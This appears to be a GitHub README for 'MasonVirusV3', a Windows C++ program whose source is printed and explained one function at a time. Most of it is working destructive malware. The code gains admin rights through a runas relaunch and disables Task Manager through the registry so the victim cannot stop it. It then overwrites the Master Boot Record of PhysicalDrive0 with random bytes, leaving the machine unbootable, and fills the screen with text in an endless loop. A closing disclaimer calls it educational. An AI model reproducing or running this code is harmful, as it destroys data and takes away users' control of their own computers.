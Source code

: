 # MasonVirusV3

![MasonVirusV3](https://i.ibb.co/R2rKXqY/image.png)

## Overview
This program is a demonstration of various advanced system manipulation techniques, including MBR overwriting, disabling system utilities, and simulating visual and input effects. The following sections explain each part of the code in detail.

---

### Checking for Administrator Privileges
```cpp
bool IsRunningAsAdmin() {
    BOOL isAdmin = FALSE;
    PSID adminGroup;
    SID_IDENTIFIER_AUTHORITY NtAuthority = SECURITY_NT_AUTHORITY;
    if (AllocateAndInitializeSid(&NtAuthority, 2, SECURITY_BUILTIN_DOMAIN_RID, DOMAIN_ALIAS_RID_ADMINS, 0, 0, 0, 0, 0, 0, &adminGroup)) {
        if (CheckTokenMembership(NULL, adminGroup, &isAdmin) == 0) {
            isAdmin = FALSE;
        }
        FreeSid(adminGroup);
    }
    return isAdmin == TRUE;
}
```

- **Purpose**:  
  This function checks whether the program is running with administrative privileges.

- **How it works**:  
  1. A security identifier (SID) for the "Administrators" group is created using `AllocateAndInitializeSid`.
  2. The program checks if the current process's token belongs to this group using `CheckTokenMembership`.
  3. If the token indicates membership, the function returns `true`, indicating admin privileges.
  4. The SID is freed after use to prevent memory leaks.

---

### Requesting Administrator Privileges
```cpp
void RequestAdminPrivileges() {
    if (!IsRunningAsAdmin()) {
        WCHAR szFilePath[MAX_PATH];
        GetModuleFileName(NULL, szFilePath, MAX_PATH);
        ShellExecute(NULL, L"runas", szFilePath, NULL, NULL, SW_SHOWNORMAL);
        ExitProcess(0);
    }
}
```

- **Purpose**:  
  This function requests administrative privileges if the program is not already running as an administrator.

- **How it works**:  
  1. It checks for admin privileges using `IsRunningAsAdmin`.
  2. If not running as admin, it restarts the program with elevated privileges using `ShellExecute` with the `"runas"` verb.
  3. The current process exits to allow the elevated instance to take over.

---

### Disabling Task Manager
```cpp
void DisableTaskManager() {
    HKEY hKey;
    if (RegOpenKeyEx(HKEY_CURRENT_USER, L"Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System", 0, KEY_WRITE, &hKey) == ERROR_SUCCESS) {
        DWORD dwData = 1;
        RegSetValueEx(hKey, L"DisableTaskMgr", 0, REG_DWORD, (const BYTE*)&dwData, sizeof(dwData));
        RegCloseKey(hKey);
    }
}
```

- **Purpose**:  
  Disables the Task Manager to prevent the user from terminating the program.

- **How it works**:  
  1. Opens the registry key `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System`.
  2. Sets the value `DisableTaskMgr` to `1`, which disables Task Manager.
  3. Closes the registry key after making changes.

---

### Overwriting the Master Boot Record (MBR)
```cpp
void OverwriteMBR() {
    HANDLE hDrive = CreateFileW(L"\\\\.\\PhysicalDrive0", GENERIC_WRITE, FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);
    if (hDrive == INVALID_HANDLE_VALUE) {
        return;
    }
    BYTE mbrData[MBR_SIZE];
    std::random_device rd;
    std::mt19937 gen(rd());
    std::uniform_int_distribution<> dis(0, 255);
    for (int i = 0; i < MBR_SIZE; i++)
        mbrData[i] = dis(gen);
    DWORD bytesWritten;
    WriteFile(hDrive, mbrData, MBR_SIZE, &bytesWritten, NULL);
    CloseHandle(hDrive);
}
```

- **Purpose**:  
  This function overwrites the Master Boot Record (MBR) of the primary physical drive, effectively rendering the system unbootable.

- **How it works**:  
  1. Opens a handle to the primary physical drive (`PhysicalDrive0`) with write access.
  2. Generates random data to fill a buffer of 512 bytes (the size of the MBR).
  3. Writes this random data to the drive, overwriting the MBR.
  4. Closes the handle to the drive.

- **Warning**:  
  This operation is extremely destructive and should only be executed with a full understanding of its consequences.

---

### Displaying Random Text on the Screen
```cpp
void DisplayRandomText() {
    HDC hdc;
    int sx = 0, sy = 0;
    LPCWSTR lpText = L"ABOLHB"; // ENTER YOUR NAME
    while (true) {
        hdc = GetWindowDC(GetDesktopWindow());
        sx = GetSystemMetrics(SM_CXSCREEN);
        sy = GetSystemMetrics(SM_CYSCREEN);
        TextOutW(hdc, rand() % sx, rand() % sy, lpText, wcslen(lpText));
        Sleep(10);
    }
}
```

- **Purpose**:  
  Randomly displays a predefined text string on the screen at random positions.

- **How it works**:  
  1. Retrieves the device context (HDC) of the desktop window.
  2. Calculates the screen dimensions using `GetSystemMetrics`.
  3. Displays the text at random positions using `TextOutW`.
  4. The function runs in an infinite loop, continuously displaying the text.

---

## Disclaimer
This program contains potentially harmful code, including MBR overwriting, which can permanently damage a computer. Use this code for educational purposes only and at your own risk.


